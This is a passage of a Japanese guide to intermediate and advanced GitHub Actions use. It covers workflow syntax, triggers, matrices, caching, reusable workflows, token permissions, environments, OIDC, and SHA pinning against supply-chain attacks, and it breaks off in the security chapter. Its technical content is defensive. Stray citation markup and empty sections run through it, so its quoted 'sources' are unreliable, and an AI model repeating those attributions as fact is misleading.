






# GitHub Actions 中級者〜上級者向け完全ガイド

> 対象読者: GitHub Actionsの基本的なワークフローは書けるが、再利用可能なワークフロー・セキュリティハードニング・サプライチェーン保護・コスト最適化など、プロダクション運用に必要な応用知識を体系的に押さえたいエンジニア・QAエンジニア向け。
> 最終更新調査日: 2026年7月時点の公式ドキュメントおよび一次情報源に基づく。

---

## 目次

1. [はじめに](#1-はじめに)
2. [GitHub Actionsのアーキテクチャ全体像](#2-github-actionsのアーキテクチャ全体像)
3. [ワークフロー構文: 基礎から応用へ](#3-ワークフロー構文-基礎から応用へ)
4. [トリガーイベントを使いこなす](#4-トリガーイベントを使いこなす)
5. [マトリックス戦略による並列実行](#5-マトリックス戦略による並列実行)
6. [依存関係のキャッシュとアーティファクト管理](#6-依存関係のキャッシュとアーティファクト管理)
7. [並行実行制御(concurrency)](#7-並行実行制御concurrency)
8. [再利用可能なワークフロー vs 複合アクション](#8-再利用可能なワークフロー-vs-複合アクション)
9. [GITHUB_TOKENとパーミッションモデル](#9-github_tokenとパーミッションモデル)
10. [Secrets・Variables・Environments](#10-secretsvariablesenvironments)
11. [OpenID Connect (OIDC) によるキーレス認証](#11-openid-connect-oidc-によるキーレス認証)
12. [セキュリティ脅威と実践的対策](#12-セキュリティ脅威と実践的対策)
13. [サプライチェーンセキュリティ: Artifact AttestationsとSLSA](#13-サプライチェーンセキュリティ-artifact-attestationsとslsa)
14. [モニタリング・デバッグ・可観測性](#14-モニタリングデバッグ可観測性)
15. [コストと料金の最新動向(2026年)](#15-コストと料金の最新動向2026年)
16. [実践例: エンドツーエンドCI/CDパイプライン](#16-実践例-エンドツーエンドcicdパイプライン)
17. [まとめ: プロダクションレディ・チェックリスト](#17-まとめ-プロダクションレディチェックリスト)
18. [参考資料](#18-参考資料)

---

## 1. はじめに

GitHub Actionsは、GitHubリポジトリに組み込まれたCI/CD兼汎用自動化プラットフォームである。YAMLファイルでワークフローを定義し、プッシュ・プルリクエスト・スケジュール・手動実行といったイベントをトリガーとして、ビルド・テスト・デプロイのパイプラインからIssue/PRの自動ラベリングまで、開発ライフサイクル全体を自動化できる([GitHub Actions ドキュメント](https://docs.github.com/en/actions), [GitHub Actions 製品ページ](https://github.com/features/actions?locale=ja))。

基本文法(`on`, `jobs`, `steps`)を習得した後に多くのチームがぶつかる壁は次のようなものである。

- ワークフローファイルの重複をどう解消するか(再利用可能なワークフロー・複合アクション)
- サードパーティアクションやセルフホストランナーをどこまで信頼してよいか
- クラウド認証情報をどうやって長期保存せずに扱うか(OIDC)
- `pull_request_target`のような強力だが危険なトリガーをどう安全に使うか
- ビルド成果物の出所をどう証明するか(SLSA・Artifact Attestations)
- 2026年の値付け変更を踏まえて実行コストをどう最適化するか

本ガイドはこれらのテーマを、公式ドキュメントおよび信頼できる一次情報源を参照しながら、ステップバイステップで解説する。

---

## 2. GitHub Actionsのアーキテクチャ全体像

GitHub Actionsは「ワークフロー」「ジョブ」「ステップ」「ランナー」「アクション」という5つの概念で構成される([Understanding GitHub Actions](https://docs.github.com/en/actions/get-started/understand-github-actions))。

| 用語 | 説明 |
|---|---|
| ワークフロー(Workflow) | `.github/workflows/`配下のYAMLファイルで定義される、1つ以上のジョブから成る自動化プロセス全体 |
| ジョブ(Job) | 同一ランナー上で実行されるステップの集合。デフォルトでは依存関係のないジョブは並列実行される |
| ステップ(Step) | シェルコマンドの実行、またはアクションの呼び出し。同一ジョブ内のステップは順番に実行され、ファイルシステムを共有する |
| ランナー(Runner) | ジョブを実行する仮想マシンまたはコンテナ。GitHubホスト型(Ubuntu/Windows/macOS)とセルフホスト型がある |
| アクション(Action) | 再利用可能な処理単位。JavaScript製・Docker製・複合(Composite)アクションの3種類がある |

このドキュメントの<cite index="4-1">ワークフローはYAMLファイルとしてリポジトリにチェックインされ、リポジトリ内のイベントによってトリガーされるほか、手動やスケジュールでも実行できる</cite>。<cite index="4-1">ジョブはそれぞれ独自の仮想マシンランナー、またはコンテナ内で実行され、1つ以上のステップを持つ</cite>点が重要である。



各ジョブは既定では並列に実行され、`needs`キーで依存関係を宣言した場合のみ順次実行される<cite index="4-1">。ジョブが別のジョブに依存する場合、依存先のジョブが完了するまで待機する</cite>という挙動は、ビルド→テスト→デプロイのようなパイプライン設計の基本になる。

**参考URL:**

- <https://docs.github.com/en/actions>
- <https://docs.github.com/en/actions/get-started/understand-github-actions>
- <https://docs.github.com/en/actions/get-started/quickstart>
- <https://docs.github.com/en/actions/concepts/workflows-and-actions/workflows>
- <https://github.com/features/actions?locale=ja>

---

## 3. ワークフロー構文: 基礎から応用へ

ワークフローファイルは`.github/workflows/*.yml`に配置する。中級者以上が押さえておくべき主要キーは以下の通り。

```yaml
name: CI Pipeline
run-name: ${{ github.actor }} によるCI実行

on:
  push:
    branches: [main]
    paths-ignore:
      - "docs/**"
  pull_request:
    branches: [main]

permissions:
  contents: read   # ワークフロー全体のGITHUB_TOKENをread-onlyに固定(最小権限)

defaults:
  run:
    shell: bash
    working-directory: ./app

concurrency:
  group: ci-${{ github.ref }}
  cancel-in-progress: true

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - name: Check out repository code
        uses: actions/checkout@v6
      - name: List files in the repository
        run: ls ${{ github.workspace }}
```

- `paths` / `paths-ignore` / `branches` / `branches-ignore`は、ワイルドカード(`*`, `**`)を使ったglobパターンでフィルタできる。<cite index="10-1">パスフィルタでワークフローがスキップされた場合、それに関連付けられたチェックは"Pending"状態のままになる</cite>ため、必須ステータスチェックに指定しているワークフローをパスフィルタでスキップすると、PRがマージできなくなる点に注意する。
- `permissions`は<cite index="10-1">トップレベルキーとしてワークフロー全体に適用することも、特定のジョブ内で指定することもできる</cite>。ジョブレベルで指定した権限は、そのジョブ内でGITHUB_TOKENを使うすべてのアクション・runコマンドに適用される。
- `defaults.run`でシェルや作業ディレクトリを一括指定すれば、各ステップでの重複記述を減らせる。

**参考URL:**

- <https://docs.github.com/actions/using-workflows/workflow-syntax-for-github-actions>
- <https://docs.github.com/en/actions/reference/workflows-and-actions>

---

## 4. トリガーイベントを使いこなす

| イベント | 主な用途 | 注意点 |
|---|---|---|
| `push` | ブランチ・タグへのプッシュで実行 | `branches`/`tags`でフィルタ可能 |
| `pull_request` | PRのopen/synchronize/reopen等で実行 | フォークからのPRでは`GITHUB_TOKEN`が読み取り専用になり、シークレットへのアクセスも制限される |
| `pull_request_target` | ベースリポジトリのコンテキストで実行、シークレット・書き込み権限あり | 極めて危険。詳細は[12章](#12-セキュリティ脅威と実践的対策)を参照 |
| `schedule` | cron式による定期実行 | `@yearly`等の非標準構文は非対応。UTC基準 |
| `workflow_dispatch` | UI/APIからの手動実行、入力パラメータ定義可 | デプロイ承認フローの起点によく使われる |
| `repository_dispatch` | GitHub外部からのAPI呼び出しでトリガー | `event_type`で種別を判定し外部システム連携に利用 |
| `workflow_call` | 他のワークフローから呼び出し可能にする | [8章](#8-再利用可能なワークフロー-vs-複合アクション)で詳説 |
| `workflow_run` | 別ワークフロー完了後に実行 | 特権処理をPRトリガーから分離する際に有効 |

`schedule`イベントでは<cite index="88-1">複数のcron式を定義でき、`github.event.schedule`コンテキストでどのcron式がトリガーしたかを判定できる</cite>。以下は月〜木5:30と火・木17:30に実行しつつ、片方のスケジュールでは特定ステップをスキップする例である。

```yaml
on:
  schedule:
    - cron: '30 5 * * 1,3'
    - cron: '30 5,17 * * 2,4'

jobs:
  test_schedule:
    runs-on: ubuntu-latest
    steps:
      - name: 月・水以外のみ実行
        if: github.event.schedule != '30 5 * * 1,3'
        run: echo "月・水はスキップ"
```

`workflow_dispatch`は手動デプロイやオンデマンドのメンテナンスタスクに最適で、<cite index="90-1">GitHub UIまたはAPI経由で手動トリガーでき、動的なワークフローのために入力を定義できる</cite>。`repository_dispatch`は外部システム(監視ツール・Slack Bot・他リポジトリ)からのAPI呼び出しでワークフローを起動する用途に使う。

なお、GITHUB_TOKENで作成・承認されたイベント(`workflow_dispatch`・`repository_dispatch`を除く)は再帰的なワークフロー実行を防ぐため、通常は新たなワークフロー実行をトリガーしない仕様になっている点も覚えておきたい。

**参考URL:**

- <https://docs.github.com/en/actions/using-workflows/events-that-trigger-workflows>
- <https://docs.github.com/en/actions/reference/security/securely-using-pull_request_target>

---

## 5. マトリックス戦略による並列実行

`strategy.matrix`は、OS・言語バージョン・環境などの組み合わせごとにジョブを自動生成する。<cite index="40-1">`exclude`で特定の組み合わせを除外でき、あるジョブの出力を別ジョブのマトリックス定義に使うこともできる</cite>。

```yaml
jobs:
  test:
    strategy:
      fail-fast: false        # 1つの失敗で他ジョブを止めない
      max-parallel: 4         # 同時実行数の上限
      matrix:
        os: [ubuntu-latest, windows-latest, macos-latest]
        node-version: [18, 20, 22]
        exclude:
          - os: windows-latest
            node-version: 18
    runs-on: ${{ matrix.os }}
    steps:
      - uses: actions/checkout@v6
      - uses: actions/setup-node@v4
        with:
          node-version: ${{ matrix.node-version }}
          cache: npm
      - run: npm ci
      - run: npm test
```

動的マトリックス(前段ジョブの出力から生成)も実務でよく使われるパターンである。

```yaml
jobs:
  setup:
    runs-on: ubuntu-latest
    outputs:
      matrix: ${{ steps.set-matrix.outputs.matrix }}
    steps:
      - id: set-matrix
        run: |
          echo 'matrix={"include":[{"env":"staging"},{"env":"prod"}]}' >> "$GITHUB_OUTPUT"

  deploy:
    needs: setup
    strategy:
      matrix: ${{ fromJson(needs.setup.outputs.matrix) }}
    runs-on: ubuntu-latest
    steps:
      - run: echo "Deploying to ${{ matrix.env }}"
```

**運用上のポイント:**

- `fail-fast: false`はデバッグ時に有効。全組み合わせの結果を見てから判断したい場合に使う。
- マトリックスは1ワークフロー実行あたり最大256ジョブまで生成できる。
- マトリックスジョブごとにキャッシュキーを分ける([6章](#6-依存関係のキャッシュとアーティファクト管理))ことで、キャッシュの衝突を避けられる。

**参考URL:**

- <https://docs.github.com/en/actions/examples/using-concurrency-expressions-and-a-test-matrix>

---

## 6. 依存関係のキャッシュとアーティファクト管理

### 6.1 `actions/cache`によるキャッシュ

依存関係のキャッシュは、`npm ci`や`pip install`などの再実行を避けてワークフローの実行時間を大幅に短縮する。キャッシュキーには、依存関係ファイルのハッシュを含めるのが定石である。

```yaml
- name: Cache node_modules
  uses: actions/cache@v4
  with:
    path: |
      ~/.npm
      node_modules
    key: ${{ runner.os }}-node-${{ hashFiles('**/package-lock.json') }}
    restore-keys: |
      ${{ runner.os }}-node-
```

`hashFiles('package-lock.json')`によって、ロックファイルが変わらない限りキャッシュがヒットし続ける。`restore-keys`はキーが完全一致しない場合のフォールバックとして機能し、部分一致するキャッシュから復元できる。キャッシュは7日間アクセスがないと自動的に失効し、既定ではブランチ単位でスコープされる(featureブランチは既定ブランチのキャッシュを読み取り専用で利用できる)。

### 6.2 `actions/upload-artifact` / `download-artifact`

ジョブ間でファイルを受け渡す場合は、環境変数ではなくアーティファクトを使う。

```yaml
jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v6
      - run: npm run build
      - uses: actions/upload-artifact@v4
        with:
          name: dist
          path: dist/
          retention-days: 14

  deploy:
    needs: build
    runs-on: ubuntu-latest
    steps:
      - uses: actions/download-artifact@v4
        with:
          name: dist
          path: dist/
      - run: ./deploy.sh
```

小さな値(文字列・数値)はジョブの`outputs`で受け渡し、ファイルはアーティファクトで受け渡す、という使い分けが基本方針となる。また、アーティファクトの保持期間(`retention-days`)を明示的に設定し、不要なストレージコストを避けることも運用上重要である。

**参考URL:**

- <https://docs.github.com/en/actions/concepts/workflows-and-actions>

---

## 7. 並行実行制御(concurrency)

`concurrency`キーを使うと、同一グループ内で同時に実行できるワークフロー(またはジョブ)を1つに制限できる。PRへの連続プッシュで古い実行を自動キャンセルする、デプロイの多重実行を防ぐ、といった用途に使う。

```yaml
concurrency:
  group: '${{ github.workflow }}-${{ github.event.pull_request.number || github.ref }}'
  cancel-in-progress: true
```

デプロイジョブでは`cancel-in-progress: false`にして、進行中のデプロイを安全に完了させてから次のデプロイを開始する設計が推奨される。環境(Environment)単位で同時デプロイを1つに制限する用途にも`concurrency`は有効に機能する。

**参考URL:**

- <https://docs.github.com/en/actions/examples/using-concurrency-expressions-and-a-test-matrix>
- <https://docs.github.com/en/actions/how-tos/deploy/configure-and-manage-deployments/control-deployments>

---

## 8. 再利用可能なワークフロー vs 複合アクション

コードの重複を避ける手段として、GitHub Actionsは「再利用可能なワークフロー(Reusable Workflows)」と「複合アクション(Composite Actions)」という2つの異なるレベルの再利用機構を提供している。両者は似ているが、設計思想と制約が異なるため使い分けが重要である。

### 8.1 比較表

| 観点 | 再利用可能なワークフロー | 複合アクション |
|---|---|---|
| 再利用の単位 | 1つ以上のジョブ全体 | 1つのジョブ内の複数ステップ |
| 呼び出し方法 | ジョブレベルで`uses:`(`workflow_call`) | ステップとして`uses:` |
| 複数ジョブ・別ランナー | 可能(ジョブごとに`runs-on`を変えられる) | 不可(常に呼び出し元と同じランナー) |
| シークレット・secretsコンテキスト | 明示的に受け渡し可能 | 直接アクセス不可(inputs経由で渡す) |
| ネスト | 呼び出しチェーンで最大10階層、1ファイルから最大50個まで呼び出し可能 | 最大10階層までネスト可能 |
| ログの表示 | ジョブ単位で個別に表示 | 呼び出し元の1ステップとしてまとめて表示 |
| 保存場所 | `.github/workflows/`直下(サブディレクトリ不可) | 独自ディレクトリ+`action.yml` |
| 呼び出し後の追加ステップ | 不可(`GITHUB_ENV`で後続ステップに値を渡せない) | 可能(前後に他のステップを挟める) |

<cite index="12-1">ステップが呼び出し元のジョブと異なる種類のマシンで実行される必要がある場合は、複合アクションではなく再利用可能なワークフローを使うべきである</cite>という指針が公式ドキュメントでも明示されている。逆に、Marketplaceへの公開を前提とした汎用的なステップ群には複合アクションが向いている。

### 8.2 再利用可能なワークフローの例

```yaml
# .github/workflows/reusable-build.yml
name: Reusable Build

on:
  workflow_call:
    inputs:
      node-version:
        type: string
        default: '20'
    secrets:
      NPM_TOKEN:
        required: true
    outputs:
      artifact-name:
        value: ${{ jobs.build.outputs.artifact-name }}

jobs:
  build:
    runs-on: ubuntu-latest
    outputs:
      artifact-name: dist
    steps:
      - uses: actions/checkout@v6
      - uses: actions/setup-node@v4
        with:
          node-version: ${{ inputs.node-version }}
      - run: npm ci
        env:
          NODE_AUTH_TOKEN: ${{ secrets.NPM_TOKEN }}
      - run: npm run build
      - uses: actions/upload-artifact@v4
        with:
          name: dist
          path: dist/
```

呼び出し側は次のようにジョブレベルで参照する。

```yaml
jobs:
  call-build:
    uses: octo-org/shared-workflows/.github/workflows/reusable-build.yml@v1
    with:
      node-version: '22'
    secrets:
      NPM_TOKEN: ${{ secrets.NPM_TOKEN }}
```

### 8.3 複合アクションの例

```yaml
# .github/actions/setup-python-env/action.yml
name: Setup Python Environment
description: Pythonのセットアップと依存関係インストールをまとめた複合アクション
inputs:
  python-version:
    default: '3.12'
runs:
  using: composite
  steps:
    - uses: actions/setup-python@v5
      with:
        python-version: ${{ inputs.python-version }}
        cache: pip
    - run: pip install -r requirements.txt
      shell: bash   # 複合アクション内のrunステップはshellの明示指定が必須
```

### 8.4 アーキテクチャ上の位置づけ



### 8.5 バージョン管理のベストプラクティス

社内で共有する再利用可能なワークフローや複合アクションは、次のようにバージョニングすることが推奨される。

- 開発中は`@main`や`@dev`ブランチを参照して迅速に反復する
- 安定版はセマンティックバージョニングのタグ(`@v1`)、本番運用では**コミットSHA固定**を使う([12章](#12-セキュリティ脅威と実践的対策)で詳述)
- 複合アクションと再利用可能なワークフローを同一リポジトリにまとめておくと、両者を同じコミットでテスト・リリースしやすくなる

**参考URL:**

- <https://docs.github.com/en/actions/concepts/workflows-and-actions/reusing-workflow-configurations>
- <https://github.com/orgs/community/discussions/171037>

---

## 9. GITHUB_TOKENとパーミッションモデル

`GITHUB_TOKEN`は、ワークフロー実行のたびにGitHubが自動生成する一時的なインストールアクセストークンである。<cite index="87-1">2021年により細かい権限モデルが導入され、現在では新規リポジトリ・組織のデフォルトはread-onlyになっている</cite>が、既存のリポジトリでは書き込み可能な設定のままになっているケースも多い。

### 9.1 権限スコープの一覧(抜粋)

`permissions`キーで指定できる主なスコープと値(`read` / `write` / `none`)は以下の通り。

| スコープ | 説明 |
|---|---|
| `contents` | リポジトリ内容の読み書き(チェックアウト・コミット等) |
| `pull-requests` | PRの作成・コメント・ラベル付け |
| `issues` | Issueの作成・コメント・クローズ |
| `id-token` | OIDCトークンの発行要求([11章](#11-openid-connect-oidc-によるキーレス認証)) |
| `packages` | GitHub Packagesへの読み書き |
| `deployments` | デプロイステータスの更新 |
| `attestations` | Artifact Attestationsの生成([13章](#13-サプライチェーンセキュリティ-artifact-attestationsとslsa)) |
| `actions` | ワークフロー実行のキャンセル・再実行等 |
| `security-events` | Code ScanningへのSARIFアップロード等 |

<cite index="84-1">いずれかのパーミッションの値を指定した場合、明示していない他のすべてのパーミッションは`none`に設定される</cite>点は非常に重要である。つまり「1つだけ`write`にしたつもりが、他の権限がすべて剥奪される」という予期せぬ挙動を招くことがあるため、必要な権限をすべて列挙する必要がある。

```yaml
permissions:
  contents: read
  pull-requests: write   # PRへのコメント投稿のみ許可
  issues: none
```

### 9.2 最小権限の原則を徹底する

- ワークフロー全体では`permissions: {}`または`contents: read`を既定にし、書き込みが必要なジョブだけにジョブレベルで権限を追加する。
- フォークからの`pull_request`イベントでは、既定でGITHUB_TOKENが読み取り専用になり、シークレットへのアクセスも制限される。これは意図的なセキュリティ設計であり、安易に緩めるべきではない。
- リポジトリ設定の「Workflow permissions」でも、組織・リポジトリ単位のデフォルトを制御できる。

**参考URL:**

- <https://docs.github.com/en/actions/writing-workflows/choosing-what-your-workflow-does/controlling-permissions-for-github_token>
- <https://github.blog/changelog/2023-02-02-github-actions-updating-the-default-github_token-permissions-to-read-only/>
- <https://docs.github.com/en/repositories/managing-your-repositorys-settings-and-features/enabling-features-for-your-repository/managing-github-actions-settings-for-a-repository>
- <https://github.blog/security/new-tool-to-secure-your-github-actions/>

---

## 10. Secrets・Variables・Environments

### 10.1 3つのスコープ

Secretsと設定用のVariablesは、リポジトリ・組織・環境(Environment)の3段階でスコープできる。環境スコープのシークレットは、対応する環境を参照するジョブのみがアクセスでき、環境に保護ルールが設定されている場合は承認が下りるまでアクセスできない。

### 10.2 環境の保護ルール(Deployment Protection Rules)

Environmentsは単なる名前空間ではなく、デプロイに対するゲートとして機能する。設定できる主な保護ルールは次の通り([Deployments and environments](https://docs.github.com/en/actions/reference/workflows-and-actions/deployments-and-environments))。

| 保護ルール | 内容 |
|---|---|
| Required reviewers | 最大6人/チームを指定でき、うち1人の承認でジョブが進行する。自己承認を禁止するオプションもある |
| Wait timer | ジョブトリガー後、1〜43,200分(最大30日)の待機時間を強制できる(待機時間は課金対象時間に含まれない) |
| Deployment branches/tags | 特定のブランチ・タグ・保護ブランチのみがデプロイ可能、という制限をかけられる |
| カスタム保護ルール(GitHub Apps) | Datadog・ServiceNowなど外部サービスによる自動承認をゲートとして組み込める |

```yaml
jobs:
  deploy-staging:
    runs-on: ubuntu-latest
    environment: staging
    steps:
      - run: ./deploy.sh

  deploy-production:
    needs: deploy-staging
    runs-on: ubuntu-latest
    environment:
      name: production
      url: https://example.com
    steps:
      - run: ./deploy.sh   # 承認・待機タイマーを通過した後にのみ実行される
```



環境シークレットは、保護ルールをすべて通過するまでジョブから利用できない。これにより「承認が下りるまで本番用の認証情報を一切ジョブに渡さない」という設計が実現できる。

**参考URL:**

- <https://docs.github.com/en/actions/reference/workflows-and-actions/deployments-and-environments>
- <https://docs.github.com/actions/deployment/targeting-different-environments/using-environments-for-deployment>
- <https://docs.github.com/en/actions/how-tos/deploy/configure-and-manage-deployments/control-deployments>

---

## 11. OpenID Connect (OIDC) によるキーレス認証

クラウドプロバイダー(AWS/Azure/GCP等)へのデプロイでは、長期的なアクセスキーをGitHub Secretsに保存する代わりに、OIDCによる短命トークン交換を使うことが2026年時点でのベストプラクティスとされている。

<cite index="22-1">ジョブが実行されるたびに、GitHubのOIDCプロバイダーが自動的にOIDCトークンを生成する。このトークンには、認証を試みている特定のワークフローについて、セキュリティが強化された検証可能なアイデンティティを確立するための複数のクレームが含まれる</cite>。クラウド側はこのトークンのクレーム(発行者・サブジェクト・リポジトリ等)を検証し、条件が一致すれば短命のクラウドアクセストークンを発行する。

### 11.1 OIDCの利点

- **長期シークレット不要**: クラウド認証情報をGitHub Secretsに複製する必要がなくなる
- **自動失効**: 発行されたアクセストークンはジョブの実行期間内でのみ有効
- **粒度の細かい信頼設定**: リポジトリ・ブランチ・環境ごとに異なるロールを割り当てられる

### 11.2 ワークフロー側の設定

```yaml
permissions:
  id-token: write   # OIDCトークンの発行に必須
  contents: read

jobs:
  deploy:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v6
      - name: Configure AWS credentials via OIDC
        uses: aws-actions/configure-aws-credentials@v4
        with:
          role-to-assume: arn:aws:iam::123456789012:role/GitHubActionsDeployRole
          aws-region: ap-northeast-1
      - run: aws s3 sync ./dist s3://my-bucket --delete
```

`id-token: write`を設定しても、それだけでは何のリソースへの書き込み権限も付与されない。あくまで「OIDCトークンを要求・利用する」ことを許可するだけであり、実際のアクセス制御はクラウド側の信頼ポリシー(IAM Roleの`Condition`等)で定義する。

### 11.3 信頼条件の設計

AWS IAMロールの信頼ポリシーでは、`sub`クレームを使って「どのリポジトリ・どのブランチ・どの環境からのリクエストか」を絞り込む。

```json
{
  "Effect": "Allow",
  "Principal": {
    "Federated": "arn:aws:iam::123456789012:oidc-provider/token.actions.githubusercontent.com"
  },
  "Action": "sts:AssumeRoleWithWebIdentity",
  "Condition": {
    "StringEquals": {
      "token.actions.githubusercontent.com:sub": "repo:octo-org/octo-repo:environment:production"
    }
  }
}
```

このように環境名まで含めて条件を絞ることで、「productionという名前の環境を通過したワークフローだけが本番ロールを引き受けられる」という制御が可能になる。組織・エンタープライズ管理者は、リポジトリのカスタムプロパティ(例: `business_unit`)をOIDCクレームに含めることもでき、属性ベースアクセス制御(ABAC)を実現できる。



DependabotについてもOIDCによるプライベートレジストリ認証(AWS CodeArtifact・Azure DevOps Artifacts・JFrog Artifactory)がサポートされている。

**参考URL:**

- <https://docs.github.com/en/actions/concepts/security/openid-connect>
- <https://docs.github.com/actions/deployment/security-hardening-your-deployments/configuring-openid-connect-in-cloud-providers>
- <https://docs.github.com/en/enterprise-cloud@latest/actions/reference/security/oidc>

---

## 12. セキュリティ脅威と実践的対策

GitHub Actionsはワークフローの自由度が非常に高い分、セキュリティ責任の大部分が利用者側に委ねられている。2025〜2026年にかけて実際に発生した供給網攻撃を踏まえ、優先度の高い脅威モデルを整理する。

### 12.1 サードパーティアクションの信頼境界

<cite index="26-1">アクションを利用する際、そのアクションはワークフローに設定されたすべてのシークレットにアクセスでき、GITHUB_TOKENを使ってリポジトリに書き込める可能性がある</cite>ため、サードパーティリポジトリのアクションを使うことには本質的なリスクが伴う。

**対策:**

- **フルコミットSHAでピン留めする**。タグ(`@v4`)やブランチ(`@main`)は可変であり、アクション作者のアカウントが乗っ取られた場合にタグの指す内容が書き換えられるリスクがある。SHAは不変であるため、この手のすり替えを防げる。
- SHAを選ぶ際は、フォークではなく本家リポジトリのコミット履歴から取得したものであることを確認する。
- Dependabotで、ピン留めしたSHAを最新の安全なバージョンに自動更新する運用を組む。

```yaml
# 悪い例: タグは書き換え可能
- uses: some-org/some-action@v3

# 良い例: フルコミットSHAでピン留め(タグはコメントで残す)
- uses: some-org/some-action@a1b2c3d4e5f6...   # v3.2.1
```

### 12.2 実際に起きたサプライチェーン事件(2025〜2026年)

理論上のリスクではなく、実際に発生した事例を知ることは対策の優先順位付けに役立つ。

| 時期 | 事件 | 概要 |
|---|---|---|
| 2025年3月 | `tj-actions/changed-files`侵害 | 可変タグを参照していた2万3千以上のリポジトリでシークレットが露出した |
